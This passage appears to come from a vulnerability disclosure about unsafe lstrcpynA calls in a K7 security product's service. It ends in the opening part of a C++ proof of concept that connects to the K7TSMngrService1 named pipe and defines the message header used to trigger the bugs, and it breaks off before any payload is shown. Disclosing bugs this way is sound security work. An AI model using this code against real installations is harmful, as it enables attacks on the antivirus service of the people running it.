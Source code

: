 There very similar issues for the two other calls to *lstrcpynA* in this function. The PoC code will trigger them.


# PoC Code

```C++
#include <Windows.h>
#include <stdio.h>

#define _CRT_SECURE_NO_WARNINGS

// Pipe header structure
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

// Handle to the pipe
HANDLE g_hPipe = INVALID_HANDLE_VALUE;

/* 
Description:
    Initializes the connection to the pipe
 
Parameters:
    None

Returns:
    TRUE on success, otherwise FALSE
*/
BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}


/* 
Description:
    Sends over the real pipe message that does the work
 
Parameters:
    dwFunctionId    Id to call
    pInput          Input buffer
    dwInSize        Size of pInput, in bytes
    pOutput         Output buffer
    dwOutSize       Size of pOutput, in bytes

Returns:
```
